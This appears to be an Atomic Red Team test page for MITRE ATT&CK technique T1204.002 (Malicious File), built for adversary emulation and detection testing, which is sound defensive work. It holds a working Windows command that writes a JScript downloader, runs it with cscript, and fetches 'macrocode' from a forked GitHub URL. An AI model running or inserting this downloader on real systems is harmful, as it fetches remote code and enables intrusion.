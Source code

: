# T1204.002A - Malicious File
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)

<blockquote>An adversary may rely upon a user opening a malicious file in order to gain execution. Users may be subjected to social engineering to get them to open a file that will lead to code execution. This user action will typically be observed as follow-on behavior from [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl.

Adversaries may employ various forms of [Masquerading](https://attack.mitre.org/techniques/T1036) on the file to increase the likelihood that a user will open it.

While [Malicious File](https://attack.mitre.org/techniques/T1204/002) frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it. This activity may also be seen shortly after [Internal Spearphishing](https://attack.mitre.org/techniques/T1534).</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Payload Download](#atomic-test-1---ostap-payload-download)


<br/>


## Atomic Test #1 - OSTap Payload Download
Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows




#### Inputs:
| Name        | Description                       | Type | Default Value             |
| ----------- | --------------------------------- | ---- | ------------------------- |
| script_file | File to execute jscript code from | Path | %TEMP%&#92;OSTapGet.js    |
| file_url    | URL to retrieve file from         | Url  | https://raw.githubusercontent.com/crav3r/atomic-red-team/round4test/atomics/T1204.002A/src/chromeexec-macrocode.txt |


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile('T1204.002A.js', 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1      
del %temp%\"T1204.002A.js" /F /Q >nul 2>&1      
```






<br/>
